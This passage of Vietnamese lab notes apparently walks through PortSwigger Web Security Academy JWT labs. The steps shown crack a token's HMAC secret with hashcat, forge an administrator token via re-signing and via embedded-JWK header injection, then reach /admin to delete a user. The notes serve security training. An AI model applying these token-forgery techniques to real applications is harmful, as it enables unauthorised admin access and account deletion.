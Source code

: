 ```zsh
hashcat -a 0 -m 16500 eyJraWQiOiJmYzNlOWNmYy03Y2Y2LTQzMTAtYTdkZS03NmE5NGVkZDAxMzkiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1MDMwNjYyNiwic3ViIjoid2llbmVyIn0.Smp7bOpvCnzI71JpvGqmz9L5rH7R2-0gdxYRM4WG3iA jwt.secrets.list
```
- Ta nhận được **secret** là `secret1`, sử dụng nó để ký lại
- Chọn tab **Pretty**, sửa đổi **path** thành `/admin`

```http
GET /admin HTTP/2
Host: 0a5d00030422b0d280d4d0b500a60082.web-security-academy.net
```
- Tạo **signature** mới:
    - Chọn tab **JWT Editor**
    - **New Symmetric Key** > **Specify secret** 
    - Nhập **key** tìm được và **Genarate** > **Ok**
- Chọn tab **JSON Web Token** (Nhớ cài **JWT Editor**), đổi giá trị của `sub` thành `administrator`

```json
{
    "iss": "portswigger",
    "exp": 1750306626,
    "sub": "administrator"
}
```
- Click **Sign** > chọn **Signning Key** vừa tạo > **Ok** 
- Quan sát **response** ta thấy **path** để xóa user `carlos`

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a5d00030422b0d280d4d0b500a60082.web-security-academy.net
```
- Ngoài ra có thể thay đổi **cookie** trên trình duyệt để xóa
    - Copy nội dung **cookie** ở phần **Serialized JWT**
    - Mở **Devtool** của trình duyệt > **Application** > **Cookie**, thay đổi giá trị **cookie** của trang web hiện tại bằng nội dung đã copy
    - Có thể sử dụng **Cookie Editor Extension** để sửa

### Lab: JWT authentication bypass via jwk header injection
- Login bằng account `wiener`
- Gửi request đến đến **Repeater**
- Thử truy cập `/admin` => từ chối

```http
GET /admin HTTP/2
Host: 0a5d00030422b0d280d4d0b500a60082.web-security-academy.net
```
- Tạo **JSON Web Key**
    - **JWT Editor** > **New RSA Key**
    - **Format: JWK** > **Genarate**
- Tại request được gửi đến **repeater**, chọn tab **JSON Web Token**
- Đổi giá trị của `sub` thành `administrator`

```json
{
    "iss": "portswigger",
    "exp": 1750318507,
    "sub": "administrator"
}
```
- Click **Attack** > **Embedded JWK** > Chọn **JWK** vừa tạo > **Ok**
- **Send** và quan sát **response** ta thấy **path** để xóa user `carlos`
